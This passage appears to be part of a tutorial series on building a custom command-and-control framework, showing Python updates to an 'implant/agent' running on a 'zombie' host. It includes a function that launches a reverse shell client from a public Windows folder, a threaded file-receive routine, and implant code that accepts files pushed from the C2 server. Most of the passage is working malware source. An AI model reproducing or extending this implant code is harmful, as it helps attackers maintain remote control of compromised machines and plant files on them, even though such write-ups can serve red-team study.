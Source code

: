 No Problemo, just do the following:

![image](https://github.com/user-attachments/assets/46802f6f-4de4-4ae5-a029-27eaa6a9c32c)

And there it is!

![image](https://github.com/user-attachments/assets/0852147e-094c-4580-ae1e-e4167624da35)

***Adding in the code changes - Implant/Agent code updates***
-

> Updates applied to code from PART 1

I updated the reverse shell companion python script to use python instead of a pyinstaller compiled script.exe

```python
#def startrevshellsvr():
#    subprocess.call(["python", "pyrevshell_server.py"])
#    exit_event.set()
def startrevshellcli():
    subprocess.call("py C:/Users/public/pyrevshell_client.py") # <--
    exit_event.set()
```

I also included a threaded receive file function for when we send files to the zombie agent:

```python
def recfile(filepath,filesize):
    filesize=int(filesize)
    with open(filepath, 'wb') as f:
        received = 0
        while received < filesize:
            data = client.recv(4096)
            if not data:
                break
            if not "?keepalive?" in data.decode("UTF-8", errors="ignore"):
                f.write(data)
                received += len(data)
    print(f"Saved: {filepath}")
    exit_event.set()
```

> Code for implant receiving an uploaded file from C2:

```python
if ":upload:" in data:
    client.send(b"***Ready for upload to begin***!!\n")
    print(data.split(":"))
    data=data.split(":")
    filename=data[2]
    filesize=data[3]
    filepath = UPLOAD_DIR + "/" + filename
    print(filepath)
            
    exit_event.clear()
    handler_thread3 = threading.Thread(target=recfile, args=(filepath,filesize))
    handler_thread3.daemon = True
    handler_thread3.start()
    while not exit_event.is_set():
        time.sleep(1)
    client.send(b"File successfully uploaded!\n")
```
